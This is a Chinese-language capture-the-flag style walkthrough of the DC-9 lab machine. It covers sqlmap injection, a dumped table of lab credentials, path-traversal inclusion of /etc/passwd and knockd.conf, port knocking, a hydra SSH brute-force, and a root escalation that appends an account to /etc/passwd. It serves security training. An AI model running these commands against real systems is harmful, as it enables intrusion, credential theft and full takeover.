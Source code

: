```yaml
---
title: DC9
date: 2023-09-03T15:29:52+08:00
updated: 2023-07-23T21:52:43+08:00
categories: 
- 渗透测试
- 靶机练习
---
```


```
arp-scan -l
==>
192.168.121.153
```

![nmap](E:\笔记软件\笔记\渗透测试\靶机练习\DC9图库\nmap.png)

nmap扫描端口，用工具扫描目录

![dir](E:\笔记软件\笔记\渗透测试\靶机练习\DC9图库\dir.png)

基本都是能在首页看到的页面，不过在display.php中给出了很多用户的信息，尝试从这方面入手，尝试无果后，在serach.php页面发现能够查询用户的信息，有查询点就尝试一下sql注入，直接跑一个表单试试，数据直接被定向到了results.php进行提交

```
sqlmap -u http://192.168.121.153/results.php --data search=Moe --random-agent --keep-alive --dbs --risk=3 --level=5 --method=POST
```

成功得到数据库信息

![database](E:\笔记软件\笔记\渗透测试\靶机练习\DC9图库\database.png)

users数据库中的内容

![dump](E:\笔记软件\笔记\渗透测试\靶机练习\DC9图库\dump.png)

```
+----+------------+---------------+---------------------+-----------+-----------+
| id | lastname   | password      | reg_date            | username  | firstname |
+----+------------+---------------+---------------------+-----------+-----------+
| 1  | Moe        | 3kfs86sfd     | 2019-12-29 16:58:26 | marym     | Mary      |
| 2  | Dooley     | 468sfdfsd2    | 2019-12-29 16:58:26 | julied    | Julie     |
| 3  | Flintstone | 4sfd87sfd1    | 2019-12-29 16:58:26 | fredf     | Fred      |
| 4  | Rubble     | RocksOff      | 2019-12-29 16:58:26 | barneyr   | Barney    |
| 5  | Cat        | TC&TheBoyz    | 2019-12-29 16:58:26 | tomc      | Tom       |
| 6  | Mouse      | B8m#48sd      | 2019-12-29 16:58:26 | jerrym    | Jerry     |
| 7  | Flintstone | Pebbles       | 2019-12-29 16:58:26 | wilmaf    | Wilma     |
| 8  | Rubble     | BamBam01      | 2019-12-29 16:58:26 | bettyr    | Betty     |
| 9  | Bing       | UrAG0D!       | 2019-12-29 16:58:26 | chandlerb | Chandler  |
| 10 | Tribbiani  | Passw0rd      | 2019-12-29 16:58:26 | joeyt     | Joey      |
| 11 | Green      | yN72#dsd      | 2019-12-29 16:58:26 | rachelg   | Rachel    |
| 12 | Geller     | ILoveRachel   | 2019-12-29 16:58:26 | rossg     | Ross      |
| 13 | Geller     | 3248dsds7s    | 2019-12-29 16:58:26 | monicag   | Monica    |
| 14 | Buffay     | smellycats    | 2019-12-29 16:58:26 | phoebeb   | Phoebe    |
| 15 | McScoots   | YR3BVxxxw87   | 2019-12-29 16:58:26 | scoots    | Scooter   |
| 16 | Trump      | Ilovepeepee   | 2019-12-29 16:58:26 | janitor   | Donald    |
| 17 | Morrison   | Hawaii-Five-0 | 2019-12-29 16:58:28 | janitor2  | Scott     |
+----+------------+---------------+---------------------+-----------+-----------+
```

Staff数据库中能够查到admin的密码

![staff-user](E:\笔记软件\笔记\渗透测试\靶机练习\DC9图库\staff-user.png)

```
+--------+----------------------------------+----------+
| UserID | Password                         | Username |
+--------+----------------------------------+----------+
| 1      | 856f5de590ef37314e7c3bdf6f8a66dc | admin    |
+--------+----------------------------------+----------+
```

admin的密码显然经过了加密，先用其他用户的进行登录，尝试使用ID为3的用户即系统管理员，账户无效，登录其他用户也一样，都是无效，尝试admin账户，把密码丢去md5解密,得到

```
transorbital1
```

再次尝试登录，成功，我的想法是利用登陆成功的admin账户进行深度扫描，起一个awvs.但是没有得到什么结果，不过在manage.php下方找到一条信息

![file](E:\笔记软件\笔记\渗透测试\靶机练习\DC9图库\file.png)

这说明可能存在文件包含，扫描一下用的是哪个参数

```
wfuzz -z file,/usr/share/wfuzz/wordlist/general/common.txt http://192.168.121.153/addrecord.php?FUZZ=/etc/passwd
```

但是这样扫描出来是0，说明有可能不是get传递的参数,找了很多个存在这样特征的页面也没有找到包含点，尝试在添加用户处写马，看看能不能成功连上蚁剑，写入是写入了，但是连接不上，也看不到回显的email,估计写入失败了，看来只能从文件包含入手,继续尝试爆破，改用更高的路径

由于kali连接不上目标，换成bp进行爆破

![include](E:\笔记软件\笔记\渗透测试\靶机练习\DC9图库\include.png)

```
../../../../../ect/passwd
```

成功得到文件包含漏洞，可以尝试进行写马了，看看能否访问日志文件，两个日志文件都无法读取，应该是关闭了访问权限，回想起来进行端口扫描时，22端口返回的状态为filtered,存在被墙的情况，能不能尝试突破这个限制

https://zhuanlan.zhihu.com/p/43716885

knockd是一种端口试探服务器工具。它侦听以太网或其他可用接口上的所有流量，等待特殊序列的端口命中(port-hit)。telnet或Putty等客户软件通过向服务器上的端口发送TCP或数据包来启动端口命中。

经过knockd设置之后的端口被保护，如果要连接，需要我们先按照序列进行敲门，该工具位于/etc/knockd.conf，先包含该文件，读取端口序列，得到序列

```
7469,8475,9842
```

使用nc按照序列敲门,再次扫描后即可开启22端口

![22open](E:\笔记软件\笔记\渗透测试\靶机练习\DC9图库\22open.png)

接下来即可使用得到的账户登录ssh,可惜的是admin账户不可用,制作字典使用hydra进行爆破

```
hydra -L username.txt -P password.txt -t 4  ssh://192.168.121.153
```

![hydrA](E:\笔记软件\笔记\渗透测试\靶机练习\DC9图库\hydrA.png)

得到三个可用的账户

![hidefile](E:\笔记软件\笔记\渗透测试\靶机练习\DC9图库\hidefile.png)

发现隐藏的文件

![addpasswd](E:\笔记软件\笔记\渗透测试\靶机练习\DC9图库\addpasswd.png)

跟进得到一些密码，添加进原有的字典，再次爆破，得到了fredf的账户，fref用户可以利用root权限执行test

![sudo-l](E:\笔记软件\笔记\渗透测试\靶机练习\DC9图库\sudo-l.png)

跟进看看该目录，直接cat会发现全是乱码，直接当作脚本执行会发现是一个python脚本,test.py找寻该文件

```
find ./ -name test.py 2>/dev/null
cat test.py
```

```python
#!/usr/bin/python

import sys

if len (sys.argv) != 3 :
    print ("Usage: python test.py read append")
    sys.exit (1)

else :
    f = open(sys.argv[1], "r")
    output = (f.read())

    f = open(sys.argv[2], "a")
    f.write(output)
    f.close()
```

该脚本用于打开两个文件并将文件1的内容写入到文件2，利用该文件可以向/etc/passwd中写入一个root用户，尝试直接添加无密码的用户，结果用户不存在，利用openssl生成密码

```
openssl passwd -1 -salt admin 123456
==>
$1$admin$LClYcRe.ee8dQwgrFc5nz.
echo 'admin:$1$admin$LClYcRe.ee8dQwgrFc5nz.:0:0::/root:/bin/bash' >> /tmp/passwd
sudo ./test /tmp/passwd /etc/passwd
su admin
```

![root](E:\笔记软件\笔记\渗透测试\靶机练习\DC9图库\root.png)

拿到root权限，进目录拿flag即可

![flag](E:\笔记软件\笔记\渗透测试\靶机练习\DC9图库\flag.png)

## 总结：

相较于前面的靶机，添加了保护机制，需要知道保护的机制才能成功进入拿shell,难点在于如何拿shell和如何进去提权，以及隐藏文件的探测，需要对/etc/passwd的格式以及如何添加密码有了解，学到了如何利用文件包含漏洞拿/etc/knockd.conf突破22端口的保护以及利用写账户提权